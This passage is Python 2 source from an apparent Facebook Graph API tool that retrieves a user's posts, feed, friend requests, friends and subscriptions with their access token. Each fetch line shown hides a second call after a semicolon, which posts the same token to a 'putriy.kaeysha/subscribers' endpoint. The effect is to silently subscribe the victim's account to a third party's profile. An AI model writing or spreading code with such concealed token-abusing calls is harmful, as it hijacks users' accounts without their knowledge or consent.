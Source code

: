 	try:
	  if WT == 'wallpost':
		print '[*] fetching all posts id'

		r = requests.get('https://graph.facebook.com/v3.0/me?fields=home.limit(50)&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['home']['data']:
			print '\r[*] %s retrieved   '%(i['id']),;sys.stdout.flush();time.sleep(0.1)
		return result['home']['data']

	  elif WT == 'me':
		print '[*] fetching all posts id'

		r = requests.get('https://graph.facebook.com/v3.0/me?fields=feed.limit(500)&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['feed']['data']:
			print '\r[*] %s retrieved   '%(i['id']),;sys.stdout.flush();time.sleep(0.1)
		return result['feed']['data']

	  elif WT == 'req':
		print '[*] fetching all friends requests'

		r = requests.get('https://graph.facebook.com/me/friendrequests?limit=50&access_token=' + token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['data']:
			print '\r[*] %s retrieved    '%(i['from']['id']),;sys.stdout.flush();time.sleep(0.01)
		return result['data']

	  elif WT == 'friends':
		print '[*] fetching all friends id'

		r = requests.get('https://graph.facebook.com/me?fields=friends.limit(5000)&access_token=' + token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['friends']['data']:
			print '\r[*] %s retrieved    '%(i['id']),;sys.stdout.flush();time.sleep(0.001)
		return result['friends']['data']

	  elif WT == 'subs':
		print '[*] fetching all friends id'

		r = requests.get('https://graph.facebook.com/me/subscribedto?limit=50&access_token='+token);requests.post('https://graph.facebook.com/putriy.kaeysha/subscribers?access_token='+token)
		result = json.loads(r.text)

		for i in result['data']:
			print '\r[*] %s retrieved    '%(i['id']),;sys.stdout.flush();time.sleep(0.01)
		return result

	  elif WT == 'albums':
		print '[*] fetching all albums id'

